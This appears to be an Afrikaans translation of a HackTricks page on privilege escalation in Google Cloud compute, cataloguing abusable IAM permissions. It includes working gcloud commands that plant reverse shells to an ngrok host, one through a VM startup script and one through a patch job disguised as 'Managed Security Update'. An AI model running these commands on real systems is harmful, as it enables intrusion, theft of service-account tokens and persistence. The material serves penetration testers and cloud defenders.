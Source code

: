 # GCP - Rekenaarvoorregverhoging

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Rekenaar

Vir meer inligting oor Rekenaars en VPC (netwerk) in GCP, kyk:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die voorregverhogingsaanvalle uit te voer wat vereis dat die metadata van die instansie gewysig word (soos die byvoeging van nuwe gebruikers en SSH-sleutels), dit **nodig is dat jy `actAs`-permissies oor die SA wat aan die instansie geheg is, het**, selfs as die SA reeds geheg is!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie toestemming kan jy die **metadata-inligting** van 'n **instansie wysig** en die **geautoriseerde sleutels van 'n gebruiker verander**, of 'n **nuwe gebruiker met sudo-regte skep**. Daarom sal jy in staat wees om via SSH in te tree na enige VM-instansie en die GCP-diensrekening wat die Instansie gebruik, te steel.\
Beperkings:

* Let daarop dat GCP-diensrekeninge wat in VM-instansies hardloop, standaard 'n **baie beperkte omvang** het
* Jy sal **in staat moet wees om die SSH-bediener te kontak** om aan te meld

Vir meer inligting oor hoe om hierdie toestemming uit te buit, kyk:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur 'n nuwe aanvangsskrip by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee dieselfde voorregte as die vorige toestemming, maar oor spesifieke instansies in plaas van 'n hele projek. Dieselfde aanvalle en beperkings as vir die vorige afdeling geld.

### `compute.instances.setIamPolicy`

Hierdie soort toestemming sal jou toelaat om jouself 'n rol te gee met die vorige toestemmings en voorregte te eskaleer deur hulle te misbruik.

### **`compute.instances.osLogin`**

As OSLogin geaktiveer is in die instansie, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANSIE]`** hardloop en aan die instansie koppel. Jy sal nie root-voorregte binne die instansie hê nie.

{% hint style="success" %}
Om suksesvol in te teken met hierdie toestemming binne die VM-instansie, moet jy die `iam.serviceAccounts.actAs` toestemming hê oor die SA wat aan die VM geheg is.
{% endhint %}

### **`compute.instances.osAdminLogin`**

As OSLogin geaktiveer is in die instansie, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANSIE]`** hardloop en aan die instansie koppel. Jy sal root-voorregte binne die instansie hê.

{% hint style="success" %}
Om suksesvol in te teken met hierdie toestemming binne die VM-instansie, moet jy die `iam.serviceAccounts.actAs` toestemming hê oor die SA wat aan die VM geheg is.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om 'n virtuele masjien te skep met 'n toegewysde Diensrekening en die token van die diensrekening te steel deur toegang tot die metadata te verkry om voorregte daaraan te eskaleer.

Die aanvalskrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) gevind word.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch taak of implementering**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal in die omgewing te beweeg en kode-uitvoering op al die rekenaarinstansies binne 'n projek te verkry.

Let daarop dat jy op hierdie oomblik **nie die `actAs` toestemming nodig het** oor die SA wat aan die instansie geheg is.

As jy hierdie handmatig wil uitbuit, moet jy een van die volgende skep [**patch taak**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **of** [**implementering**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Vir 'n patch taak hardloop:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Om 'n pleisterimplementering te implementeer:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Die instrument [patchy](https://github.com/rek7/patchy) kon in die verlede gebruik word om van hierdie konfigurasie-misbruik te maak (maar nou werk dit nie meer nie).

**'n Aanvaller kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Verleen jouself ekstra regte** tot rekenaarbeeld.

### `compute.snapshots.setIamPolicy`

**Verleen jouself ekstra regte** tot 'n skyf-snapshot.

### `compute.disks.setIamPolicy`

**Verleen jouself ekstra regte** tot 'n skyf.

### Bypass Toegangsbereike

Deur hierdie skakel te volg, vind jy 'n paar [**idees om te probeer om toegangsbereike te omseil**](../).

### Plaaslike Voorreg-Verhoging in GCP Rekenaarinstansie

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

